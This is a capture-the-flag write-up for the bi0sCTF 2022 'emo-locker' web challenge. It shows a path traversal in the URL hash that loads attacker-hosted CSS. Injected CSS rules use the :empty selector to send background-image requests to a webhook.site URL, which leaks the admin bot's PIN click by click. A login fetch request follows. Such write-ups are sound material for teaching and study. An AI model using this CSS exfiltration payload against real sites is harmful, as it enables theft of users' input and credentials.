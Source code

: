 # bi0sCTF-2022-emo-locker

![image](https://user-images.githubusercontent.com/14858959/214005352-76bf81ac-38ec-45c6-9b63-bdf036cb0130.png)


The first thing we identify is that the app is taking a value from the URL without filtering it and use it to load CSS code.
![image](https://user-images.githubusercontent.com/14858959/214001671-b508e6a2-23e2-4f8f-9df0-80f4bf4cf5da.png)

We can exploit this by inserting on the URL our custom hash, pointing to our malicious code:
```
https://cdn.jsdelivr.net/npm/darkmode-css@1.0.1/xxxxxxx-mode.css
```
By visiting `http://web.chall.bi0s.in:10101/#../../gh/GramThanos/github_repo_here@github_commit_here/malicious.css?` the CSS that the page will load will be:
```
https://cdn.jsdelivr.net/npm/darkmode-css@1.0.1/../../gh/GramThanos/github_repo_here@github_commit_here/malicious.css?-mode.css
```

Since the code is in CSS, we will have to detect the user actions (click) using CSS. This is done by creating a request on each action and monitoring the requests. Normaly to do that you add background image requests on actions such as "hover", "focus", "active", but here since the client is a bot, such mouse events where not working.

First we added an instant request to verify that our code was working:
```css
body {background-image: url('https://webhook.site/8566bcb8-ed2f-468c-8ad3-d587c2494428?i=loaded');}
```
![image](https://user-images.githubusercontent.com/14858959/214003245-2a86c85d-6a05-4b9e-b322-7a379ca1ebf4.png)

Then my observing the page we identified that on each click, the emoji was removed, leaving the button empty from content... thus after some searching we identified the `:empty` css selector that could be used to fire our events.
For for emoji with id 1 we had the CSS code:
```css
span[role=img][aria-label="1"]:empty {background: url('https://webhook.site/8566bcb8-ed2f-468c-8ad3-d587c2494428?i=1');}
```

We send the link `http://web.chall.bi0s.in:10101/#../../gh/GramThanos/bi0sCTF-2022-emo-locker@53e70828379f3826a4213dd952307526b4a4707a/malicious.css?` to the bot. And we got the click events:
![image](https://user-images.githubusercontent.com/14858959/214003788-0a64022e-8195-4d0f-9edb-a745e7eea470.png)
By instecting the events from the first to the last one we tritrieved the admin password:
```
[51, 32, 73, 34, 85, 126, 17, 158, 79, 50]
``` 

We make to request to login:
```javascript
fetch("http://web.chall.bi0s.in:10101/api/login", {
  "headers": {
    "accept": "*/*",
    "accept-language": "en-US,en;q=0.9,el;q=0.8",
    "cache-control": "no-cache",
    "content-type": "application/json",
    "pragma": "no-cache"
  },
  "referrer": "http://web.chall.bi0s.in:10101/?",
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": "{\"username\":\"admin\",\"pin\":[51, 32, 73, 34, 85, 126, 17, 158, 79, 50]}",
  "method": "POST",
  "mode": "cors",
  "credentials": "omit"
});
```
![image](https://user-images.githubusercontent.com/14858959/214001505-7888f7ef-10a7-4b46-9e3a-a8d7842a884d.png)


The flag is returned as a cookie:
![image](https://user-images.githubusercontent.com/14858959/214001253-0ba31965-9e3d-4bda-9ed4-f1a4083ccb0c.png)
